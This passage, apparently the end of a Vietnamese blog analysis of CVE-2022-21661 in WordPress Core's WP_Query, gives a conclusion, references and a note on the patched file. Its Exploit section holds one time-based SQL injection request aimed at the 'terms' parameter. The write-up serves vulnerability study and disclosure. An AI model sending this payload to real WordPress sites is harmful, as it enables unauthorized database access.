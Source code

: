 **Chart minh họa luồng thực thi**

{{< figure src="chart.png" title="Biểu đồ luồng thực thi của WP_Query dẫn đến SQLi" >}}

## Exploit

Thay giá trị của `terms` bằng payload SQLi:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

{{< figure src="detect.png" title="Kết quả phản hồi cho thấy truy vấn chậm do payload hoạt động" >}}

## Conclusion

Lỗ hổng **CVE-2022-21661** trong **WordPress Core** trước phiên bản **5.8.3**, quay ngược đến tận phiên bản **3.7.37**, xuất phát từ việc làm sạch dữ liệu (**sanitization**) không đúng cách trong `WP_Query` dẫn đến lỗ hổng SQL Injection.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[CVE-2022-21661 Detail](https://www.cve.org/CVERecord?id=CVE-2022-21661)

## Notes

[^tax_query]: Vì patch nằm trong file **src/wp-includes/class-wp-tax-query.php**, file này định nghĩa class `WP_Tax_Query`, chịu trách nhiệm xử lý tham số `tax_query` trong `WP_Query`. Nếu có thay đổi trong file này thì gần như chắc chắn nó liên quan đến quá trình **parse/validate** của `tax_query`.


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-01-cve-2022-21661/  

